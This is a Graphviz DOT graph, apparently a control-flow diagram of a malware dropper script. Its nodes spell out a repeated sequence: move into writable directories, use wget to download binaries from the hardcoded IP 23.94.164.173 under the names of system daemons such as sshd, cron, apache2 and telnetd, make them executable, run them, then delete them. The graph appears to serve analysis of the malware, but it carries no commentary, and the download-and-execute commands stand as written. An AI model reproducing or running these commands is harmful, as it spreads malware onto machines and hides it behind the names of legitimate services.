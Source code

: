 digraph {
2 [label=" cd /tmp"];
6 [label=" cd /var/run"];
10 [label=" cd /mnt"];
14 [label=" cd /root"];
18 [label=" cd /"];
22 [label=" wget http://23.94.164.173/ntpd"];
26 [label=" chmod +x ntpd"];
31 [label="BINARY_COMMAND"];
34 [label=" rm -rf ntpd"];
39 [label=" cd /tmp"];
43 [label=" cd /var/run"];
47 [label=" cd /mnt"];
51 [label=" cd /root"];
55 [label=" cd /"];
59 [label=" wget http://23.94.164.173/sshd"];
63 [label=" chmod +x sshd"];
68 [label="BINARY_COMMAND"];
71 [label=" rm -rf sshd"];
76 [label=" cd /tmp"];
80 [label=" cd /var/run"];
84 [label=" cd /mnt"];
88 [label=" cd /root"];
92 [label=" cd /"];
96 [label=" wget http://23.94.164.173/openssh"];
100 [label=" chmod +x openssh"];
105 [label="BINARY_COMMAND"];
108 [label=" rm -rf openssh"];
113 [label=" cd /tmp"];
117 [label=" cd /var/run"];
121 [label=" cd /mnt"];
125 [label=" cd /root"];
129 [label=" cd /"];
133 [label=" wget http://23.94.164.173/bash"];
137 [label=" chmod +x bash"];
142 [label="BINARY_COMMAND"];
145 [label=" rm -rf bash"];
150 [label=" cd /tmp"];
154 [label=" cd /var/run"];
158 [label=" cd /mnt"];
162 [label=" cd /root"];
166 [label=" cd /"];
170 [label=" wget http://23.94.164.173/tftp"];
174 [label=" chmod +x tftp"];
179 [label="BINARY_COMMAND"];
182 [label=" rm -rf tftp"];
187 [label=" cd /tmp"];
191 [label=" cd /var/run"];
195 [label=" cd /mnt"];
199 [label=" cd /root"];
203 [label=" cd /"];
207 [label=" wget http://23.94.164.173/wget"];
211 [label=" chmod +x wget"];
216 [label="BINARY_COMMAND"];
219 [label=" rm -rf wget"];
224 [label=" cd /tmp"];
228 [label=" cd /var/run"];
232 [label=" cd /mnt"];
236 [label=" cd /root"];
240 [label=" cd /"];
244 [label=" wget http://23.94.164.173/cron"];
248 [label=" chmod +x cron"];
253 [label="BINARY_COMMAND"];
256 [label=" rm -rf cron"];
261 [label=" cd /tmp"];
265 [label=" cd /var/run"];
269 [label=" cd /mnt"];
273 [label=" cd /root"];
277 [label=" cd /"];
281 [label=" wget http://23.94.164.173/ftp"];
285 [label=" chmod +x ftp"];
290 [label="BINARY_COMMAND"];
293 [label=" rm -rf ftp"];
298 [label=" cd /tmp"];
302 [label=" cd /var/run"];
306 [label=" cd /mnt"];
310 [label=" cd /root"];
314 [label=" cd /"];
318 [label=" wget http://23.94.164.173/pftp"];
322 [label=" chmod +x pftp"];
327 [label="BINARY_COMMAND"];
330 [label=" rm -rf pftp"];
335 [label=" cd /tmp"];
339 [label=" cd /var/run"];
343 [label=" cd /mnt"];
347 [label=" cd /root"];
351 [label=" cd /"];
355 [label=" wget http://23.94.164.173/sh"];
359 [label=" chmod +x sh"];
364 [label="BINARY_COMMAND"];
367 [label=" rm -rf sh"];
372 [label=" cd /tmp"];
376 [label=" cd /var/run"];
380 [label=" cd /mnt"];
384 [label=" cd /root"];
388 [label=" cd /"];
392 [label=" wget http://23.94.164.173/\[cpu\]"];
396 [label=" chmod +x \[cpu\]"];
401 [label="BINARY_COMMAND"];
404 [label=" rm -rf \[cpu\]"];
409 [label=" cd /tmp"];
413 [label=" cd /var/run"];
417 [label=" cd /mnt"];
421 [label=" cd /root"];
425 [label=" cd /"];
429 [label=" wget http://23.94.164.173/apache2"];
433 [label=" chmod +x apache2"];
438 [label="BINARY_COMMAND"];
441 [label=" rm -rf apache2"];
446 [label=" cd /tmp"];
450 [label=" cd /var/run"];
454 [label=" cd /mnt"];
458 [label=" cd /root"];
462 [label=" cd /"];
466 [label=" wget http://23.94.164.173/telnetd"];
470 [label=" chmod +x telnetd"];
475 [label="BINARY_COMMAND"];
478 [label=" rm -rf telnetd"];
22 -> 26;
351 -> 355;
92 -> 96;
43 -> 47;
43 -> 59;
401 -> 404;
327 -> 330;
413 -> 417;
413 -> 429;
261 -> 265;
261 -> 281;
71 -> 76;
182 -> 187;
18 -> 22;
392 -> 396;
207 -> 211;
88 -> 92;
88 -> 96;
290 -> 293;
256 -> 261;
133 -> 137;
47 -> 51;
47 -> 59;
396 -> 401;
318 -> 322;
236 -> 240;
236 -> 244;
314 -> 318;
417 -> 421;
417 -> 429;
450 -> 454;
450 -> 466;
335 -> 339;
335 -> 355;
129 -> 133;
367 -> 372;
216 -> 219;
265 -> 269;
265 -> 281;
76 -> 80;
76 -> 96;
166 -> 170;
158 -> 162;
158 -> 170;
162 -> 166;
162 -> 170;
429 -> 433;
298 -> 302;
298 -> 318;
51 -> 55;
51 -> 59;
26 -> 31;
105 -> 108;
269 -> 273;
269 -> 281;
376 -> 380;
376 -> 392;
253 -> 256;
187 -> 191;
187 -> 207;
441 -> 446;
211 -> 216;
179 -> 182;
248 -> 253;
80 -> 84;
80 -> 96;
39 -> 43;
39 -> 59;
108 -> 113;
14 -> 18;
14 -> 22;
310 -> 314;
310 -> 318;
142 -> 145;
219 -> 224;
55 -> 59;
302 -> 306;
302 -> 318;
466 -> 470;
380 -> 384;
380 -> 392;
273 -> 277;
273 -> 281;
293 -> 298;
191 -> 195;
191 -> 207;
446 -> 450;
446 -> 466;
63 -> 68;
84 -> 88;
84 -> 96;
384 -> 388;
384 -> 392;
343 -> 347;
343 -> 355;
203 -> 207;
125 -> 129;
125 -> 133;
31 -> 34;
458 -> 462;
458 -> 466;
113 -> 117;
113 -> 133;
59 -> 63;
388 -> 392;
364 -> 367;
195 -> 199;
195 -> 207;
433 -> 438;
6 -> 10;
6 -> 22;
462 -> 466;
347 -> 351;
347 -> 355;
355 -> 359;
34 -> 39;
454 -> 458;
454 -> 466;
137 -> 142;
330 -> 335;
306 -> 310;
306 -> 318;
170 -> 174;
409 -> 413;
409 -> 429;
145 -> 150;
339 -> 343;
339 -> 355;
117 -> 121;
117 -> 133;
199 -> 203;
199 -> 207;
281 -> 285;
421 -> 425;
421 -> 429;
100 -> 105;
228 -> 232;
228 -> 244;
240 -> 244;
154 -> 158;
154 -> 170;
372 -> 376;
372 -> 392;
174 -> 179;
277 -> 281;
121 -> 125;
121 -> 133;
322 -> 327;
224 -> 228;
224 -> 244;
425 -> 429;
404 -> 409;
438 -> 441;
285 -> 290;
475 -> 478;
470 -> 475;
68 -> 71;
2 -> 6;
2 -> 22;
232 -> 236;
232 -> 244;
150 -> 154;
150 -> 170;
244 -> 248;
10 -> 14;
10 -> 22;
96 -> 100;
359 -> 364;
}

